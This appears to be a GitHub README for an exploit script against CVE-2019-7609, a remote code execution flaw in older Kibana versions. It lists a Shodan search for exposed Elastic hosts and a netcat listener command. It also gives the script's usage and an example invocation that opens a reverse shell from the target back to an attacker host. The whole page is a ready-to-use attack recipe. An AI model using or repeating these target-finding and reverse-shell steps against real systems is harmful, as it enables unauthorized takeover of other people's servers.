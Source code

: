 # CVE-2019-7609

![](https://img.shields.io/static/v1?label=Product&message=Kibana(Elastic)&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=before%205.6.15%20and%206.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)



 - Shodan dork:
```
product:"Elastic"
```
### Usage
```
nc -nvlp 8888
# python2 exploit.py -h

usage: exploit.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify
```
Ex: `python2 exploit.py -u http://target_IP:5601 -host attacker_IP -port attacker_PORT --shell`
